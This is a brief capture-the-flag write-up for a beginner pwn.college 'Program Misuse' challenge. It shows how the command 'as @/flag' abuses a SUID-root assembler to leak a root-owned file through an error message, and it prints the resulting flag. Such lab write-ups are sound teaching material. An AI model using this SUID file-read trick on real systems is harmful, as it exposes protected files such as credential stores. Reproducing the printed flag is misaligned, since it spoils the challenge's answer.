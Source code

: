 # Challenge Name: as
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/as`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/as
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/as
```

- The `s` in `-rws` indicates it's a SUID binary.
- `as` runs with **root privileges**.

## 🚀 Exploitation

The `as` has option @ read's additional command-line argument.

```bash
as @/flag
```

Output:
```
Assembler messages:
Error: can't open pwn.college{cfjYIUKX40s9Sa7_T3kYEn7mc8D.dFTOxwSM0IzMyEzW} for reading: No such file or directory
```
